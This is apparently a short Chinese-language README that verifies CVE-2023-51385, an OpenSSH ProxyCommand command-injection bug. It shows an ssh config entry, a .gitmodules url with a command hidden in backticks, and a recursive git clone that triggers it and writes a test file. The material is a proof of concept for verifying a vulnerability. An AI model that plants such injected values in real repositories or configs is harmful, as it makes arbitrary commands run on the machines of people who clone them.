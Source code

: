 ## 验证CVE-2023-51385

### 首先需要在`~/.ssh/config`增加如下

```
host *.example.com
  ProxyCommand /usr/bin/nc -X connect -x 192.0.2.0:8080 %h %p
```

`.gitmodules`文件语句中存在命令注入

```
url = ssh://`echo helloworld > cve.txt`foo.example.com/bar
```

配置完成后,执行下面的指令触发

```
git clone https://github.com/zls1793/CVE-2023-51385_test --recurse-submodules
```

如果成功执行将会在CVE-2023-51385_test目录下生成cve.txt文件

  ![image-20231225234031349](./images/image-20231225234031349.png)

详细信息见这篇博客:

https://vin01.github.io/piptagole/ssh/security/openssh/libssh/remote-code-execution/2023/12/20/openssh-proxycommand-libssh-rce.html

